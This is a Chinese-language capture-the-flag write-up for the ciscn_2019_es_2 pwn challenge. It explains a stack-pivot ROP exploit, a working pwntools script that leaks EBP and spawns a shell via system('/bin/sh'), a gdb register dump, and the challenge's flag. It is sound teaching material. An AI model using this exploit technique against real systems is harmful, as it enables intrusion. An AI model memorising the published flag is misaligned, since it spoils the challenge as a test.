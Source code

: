 # ciscn_2019_es_2

[题目地址](https://buuoj.cn/challenges#ciscn_2019_es_2)

rop基本学的差不多了，现在就差一些小技巧要补充了。正好这题的思路不错。

```
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

很正常的rop配置。

```c
void vul(void)

{
  undefined local_2c [40];
  
  memset(local_2c,0,0x20);
  read(0,local_2c,0x30);
  printf("Hello, %s\n",local_2c);
  read(0,local_2c,0x30);
  printf("Hello, %s\n",local_2c);
  return;
}
```

ghidra里命名是按变量距离返回地址的大小，因此local_2c离返回地址差0x2c。明显有个栈溢出，读入了0x30的数据。程序准备了一个“后门”函数。

```c
void hack(void)

{
  system("echo flag");
  return;
}
```

最开始我真以为就这么简单，虽然溢出字节不长，但是覆盖个返回地址正好。结果仔细一看这system在这里echo flag，一点用都没有。这题不对劲，给了两个溢出点很奇怪，溢出字节不够长又是个大问题。让我们看看[wp](https://blog.csdn.net/weixin_45743302/article/details/118066603)怎么说。

看了半天总算懂了，对汇编指令不熟卡了好久。先放exp，慢慢解析。

```python
from pwn import *
p=remote('node4.buuoj.cn',26478)
leave_ret=0x080484b8
p.recvline()
payload1=b'a'*0x26+b'b'*2
p.send(payload1)
p.recvuntil('aabb')
ebp=u32(p.recv(4))  
payload2=b'a'*0x4+p32(0x08048400)+b'bbbb'+p32(ebp-0x28)+b'/bin'+b'/sh\x00'
payload2=payload2.ljust(0x28,b'\x00')
payload2+=p32(ebp-0x38)+p32(leave_ret)
p.sendline(payload2)
p.interactive()
```

第一个read的溢出有什么用呢？答案是泄露程序的ebp。之前一直有误解，以为pie没开ebp等一些寄存器的值也是固定的，其实并不是。可以自己动态调试一下，ebp的值每次运行都会不一样，毕竟是程序运行时的栈帧，没法每次都保证在系统中一样。因此我们需要泄露ebp。如何泄露这点不难，printf会打印字符串到\x00结束，我们把原ebp的\x00覆盖掉printf就能帮我们泄露出ebp了。问题在于为什么要泄露？

我们的问题在于可溢出字节不够长。栈溢出长度不足时ROP，可以把栈迁移到别的地方来构造新的ROP链，一般利用leave_ret来进行栈迁移

```
leave
//mov esp ebp  将ebp指向的地址给esp
//pop ebp  将esp指向的地址存放的值赋值给ebp
ret
//pop eip  将esp指向的地址存放的值赋值给eip
```

注释的内容是汇编指令的本质。关键点在于esp指向的内容其实就是返回地址。

```
Welcome, my friend. What's your name?
a
Hello, a

a
Hello, a


Breakpoint 1, 0x080485fe in vul ()
(gdb) i r
eax            0xa                 10
ecx            0xa                 10
edx            0x0                 0
ebx            0xf7f10000          -135200768
esp            0xfff200ec          0xfff200ec
ebp            0xfff200f8          0xfff200f8
esi            0xfff201c4          -917052
edi            0xf7f6cb80          -134820992
eip            0x80485fe           0x80485fe <vul+105>
eflags         0x286               [ PF SF IF ]
cs             0x23                35
ss             0x2b                43
ds             0x2b                43
es             0x2b                43
fs             0x0                 0
gs             0x63                99
k0             0x0                 0
k1             0x0                 0
k2             0x0                 0
k3             0x0                 0
k4             0x0                 0
k5             0x0                 0
k6             0x0                 0
k7             0x0                 0
(gdb) x/4x $esp
0xfff200ec:     0x0804862a      0x00000001      0xfff20110      0xf7f6d020
```

理论上控制了esp相当于间接控制eip。由于leave，控制ebp相当于控制esp相当于控制eip。那我们控制这些寄存器干啥？当然是调整栈帧了。我们可以修改eip到输入的local_2c的内容中，这样长度绝对够了。这个关键payload看懂了整道题就没问题了。

```python
payload2=b'a'*0x4+p32(0x08048400)+b'bbbb'+p32(ebp-0x28)+b'/bin'+b'/sh\x00'
payload2=payload2.ljust(0x28,b'\x00')
payload2+=p32(ebp-0x38)+p32(leave_ret)
```

从后面开始看。我们把程序的ebp改成了ebp-0x38，这里是local_2c的位置。可能会有疑问，local_2c看着不是ebp-0x28吗？确实是，但是ebp-0x28是一个指针，指向ebp-0x38，我们构建栈肯定要直接在内容上而不是指针上运行。p32(leave_ret)是真正溢出到返回地址的值。那么接下来的leave将ebp赋值给esp，现在esp就在local_2c的开头了。之后还有个pop ebp，会把local_2c的前4个字节弹出到ebp中，因此开头的4个a是填充，不让要执行的system函数被弹出到ebp中。

接着ret，也就是pop eip。现在栈已经在local_2c了，leave的pop后接着system地址，顺利把system弹到eip里。接着4个b伪造system执行后的返回地址，正常rop操作。p32(ebp-0x28)就是system的参数/bin/sh。这里乍一看很奇怪，为什么p32(ebp-0x28)后还有个/bin/sh？这是因为当然不能直接把/bin/sh作为system的函数，程序会把它看成地址。ebp-0x28就是输入的payload中/bin/sh的位置，这样参数传ebp-0x28时就引用到了接下来的b'/bin'+b'/sh\x00'。ljust填充paylaod到0x28个字节，为了后面溢出。这样我们就巧妙地利用栈迁移getshell了。

### Flag
- flag{09cf3bd5-2c35-4c07-8cbf-9f2a0542312f}